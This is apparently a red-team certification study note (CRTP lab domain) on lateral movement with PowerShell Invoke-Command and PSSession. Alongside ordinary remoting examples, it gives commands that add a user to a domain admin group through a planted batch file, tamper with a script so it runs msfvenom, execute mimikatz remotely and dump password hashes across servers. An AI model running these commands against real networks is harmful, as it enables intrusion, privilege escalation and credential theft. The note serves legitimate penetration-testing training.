 ```yaml
---
title: "11. Invoke Command"
section: "crtp"
date: 2022-04-11
tags: ["Lateral Movement", "invoke cmd"]
---
```


# 1. Invoke-Command

> PowerShell Remoting 

## Connect to a PS-Session of a remote user
```powershell
Enter-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
```

## Execute Stateful commands using Enter-PSSession ( persistence )
```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> $proc = Get-Process
[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> exit

Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> proc
Will list current process
```

## Execute Stateful commands using Invoke-Command ( persistence )
```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

## Display allowed commands we can execute on remote machine
```powershell
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -credential $cred -command {get-command}
```

## Write File using ScriptBlock
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\admin.bat' -Value 'net group site_admin awallace /add /domain'}
```

## Edit file using ScriptBlock
```powershell
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((cat "c:\users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\msfvenom.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $cred
```

## Command execution using command and ScriptBlock
```powershell
Invoke-Command -computername computer-name -ConfigurationName dc_manage -credential $cred -command {whoami}
Invoke-Command -computername computer-name -ConfigurationName dc_manage -credential $cred -ScriptBlock {whoami}
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -command {whoami}
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock {whoami}
```

## File execution using ScriptBlock
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock{"C:\temp\mimikatz.exe"}
```

## File execution using FilePath
```powershell
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -FilePath "C:\temp\mimikatz.exe"
```

## Language Mode
```powershell
Invoke-Command -computername dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}
```

## Execute locally loaded function on the remote machines
Example : **Hello.ps1**
```powershell
function hello
{
Write-Output "Hello from the function"
}
```
> Now we can load the function on our machine
```powershell
. .\Hello.ps1
```
> Now we can execute the locally loaded functions 
```powershell
Invoke-Command -ScriptBlock ${function:hello} -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list of servers>) -
ArgumentList
```

## Directly load function on the remote machines using FilePath
```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -FilePath "C:\temp\hello.ps1" -Session $sess
Enter-PSSession -Session $sess

[dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> hello
Hello from the function
```